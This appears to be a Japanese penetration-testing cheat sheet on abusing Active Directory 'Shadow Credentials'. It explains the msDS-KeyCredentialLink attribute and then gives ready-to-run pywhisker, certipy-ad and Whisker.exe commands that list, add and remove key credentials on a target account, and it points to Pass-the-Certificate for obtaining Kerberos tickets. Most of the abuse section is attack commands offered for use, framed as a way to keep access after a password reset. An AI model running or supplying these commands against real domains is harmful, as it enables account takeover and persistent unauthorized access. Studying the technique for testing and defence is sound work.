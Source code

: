 # Shadow Credentials

Shadow Credentials とは攻撃者が Active Directoryアカウントに挿入して、変更されたアカウントへのアクセスを取得または維持する資格情報です。これらは、多くの場合、ターゲットユーザーまたはコンピューターの `msDS-KeyCredentialLink` 属性に不正な証明書またはキーを追加することに関連しています。これにより、パスワードがリセットされた場合でも、そのユーザーとして認証できます。

`msDS-KeyCredentialLink` 属性とはパスワードなしの認証のための生の暗号データを保存して、ユーザーまたはコンピュータオブジェクトにリンクする Active Directory 属性です。

Shadow Credentialsを悪用するには [pywhisker](https://github.com/ShutdownRepo/pywhisker.git) を使用します。

# Abuse

## Linux

現在のすべての `KeyCredential ID`と作成時刻を一覧出力する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "list"
```

`KeyCredential` 構造に含まれるすべての情報を出力する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "info" --device-id <device_id>
```

`msDs-KeyCredentialLink` に新しいKeyCredentialを追加する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "add" 
```

`msDs-KeyCredentialLink` から KeyCredential を削除する

```
pywhisker -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --target "<TargetUser>" --action "remove" --device-id <device_id>
```

Certipy

```
certipy-ad shadow auto -u <USERNAME>@<DOMAIN> -p <PASSWORD> -account <TargetUser>
```

## Windows

```
Whisker.exe add /target:<TargetUser> /domain:<FQDN_DOMAIN> /dc:<DC_DOMAIN> /path:<cert.pfx> /password:pfx-password
```

# Pass-The-Certificate

公開キーがターゲットの `msDs-KeyCredentialLink` に設定されている場合、生成された証明書を [Pass-the-Certificate](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Certificate.md) で使用して TGT を取得し、さらにアクセスすることができます。